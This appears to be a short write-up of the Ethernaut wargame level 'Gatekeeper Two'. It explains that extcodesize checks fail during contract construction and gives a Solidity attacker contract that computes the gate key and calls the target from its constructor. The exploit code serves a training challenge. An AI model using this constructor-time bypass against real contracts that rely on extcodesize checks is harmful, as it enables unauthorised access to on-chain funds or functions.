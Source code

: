 # Level 14 - Gatekeeper Two

- extcodesize opcode → address as input, returns code size of given address. It is used to define if an address belongs to EOA or contract. [HOWEVER, it is not safe to use](https://consensys.github.io/smart-contract-best-practices/development-recommendations/solidity-specific/extcodesize-checks/).
- A contract does not have source code during construction. For this reason, if a contract calls another contract during constructor method, it does not have a code yet.
- Rest is simple. Use below contract and attack during deployment.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperTwoAttacker {
    constructor() {
        bytes8 _gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
        IGatekeeperTwo(0x80c03FFbE18cA1C78B3e04906f0cCB53ccCBc14f).enter(_gateKey);   
    }
}
```